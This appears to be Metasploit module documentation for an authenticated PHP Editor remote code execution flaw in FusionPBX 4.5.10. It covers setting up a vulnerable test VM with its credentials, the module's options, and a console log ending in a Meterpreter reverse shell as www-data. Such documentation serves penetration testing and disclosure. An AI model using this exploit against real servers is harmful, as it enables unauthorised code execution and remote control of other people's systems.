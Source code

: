 ## Vulnerable Application
FusionPBX 4.5.10 is vulnerable to authenticated remote code execution through their PHP Editor function. Users can rewrite any PHP on site to gain access as www-data.

### Creating A Testing Environment
The vendor has patched this issue. I have kept a copy of the version for demo purposes:
https://mega.nz/#!yiRigCAI!9Qt2g3wrQy3oLHAjf8uN2sz6dWkuhd4QV-G8G1FGv4k

Download the OVF from the link provided and import OVF.

```
Username: root
Password: fusion

Database Password: bckfRgOxcFitVIsPRKVlmuvjfU

1. login as root on machine
2. cd /etc/fusionpbx
3. mv config.php config1.php
4. on web browser, visit https://ip/
5. set new admin password on the web ui prompt
6. on the next page insert database password into the database configuration 
7. submit and exploit
```

## Verification
1. start msfconsole
2. use exploit/linux/http/fusionpbx_php_editor_cmd_exec
3. set RHOST target_ip
4. set RPORT 443
5. set SSL true
6. set USERNAME login_username
7. set PASSWORD login_password
8. exploit

## Scenarios
### FusionPBX 4.5.10
```
msf5 > use exploit/linux/http/fusionpbx_php_editor_cmd_exec
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RHOST 192.168.0.48
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set RPORT 443
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set SSL true
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set USERNAME admin
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > set PASSWORD fusion
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > exploit
msf5 exploit(linux/http/fusionpbx_php_editor_cmd_exec) > run
[*] Started reverse TCP handler on 192.168.0.12:4444 
[+] Login Successful!
[*] 192.168.0.48:443 - Sending PHP payload (/var/www/fusionpbx/project_root.php)
[+] Uploaded Successfully!
[*] 192.168.0.48:443 - Executing project_root.php...
[*] Sending stage (38288 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.12:4444 -> 192.168.0.48:51374) at 2020-01-20 07:22:05 +0000
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

